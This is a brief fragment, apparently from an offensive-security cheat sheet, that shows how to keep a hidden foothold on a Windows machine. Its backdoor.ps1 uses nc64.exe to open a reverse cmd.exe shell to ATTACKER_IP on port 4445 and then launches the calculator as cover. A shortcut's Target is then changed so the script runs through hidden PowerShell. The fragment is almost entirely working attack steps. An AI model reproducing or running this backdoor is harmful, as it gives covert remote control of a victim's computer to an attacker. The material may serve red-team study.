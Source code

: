 **Example**: Calculator app persistence
Create a backdoor.ps1 file that contains the following:

	Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
	C:\Windows\System32\calc.exe

Add this to the "Target" options in the file preferences:

	powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1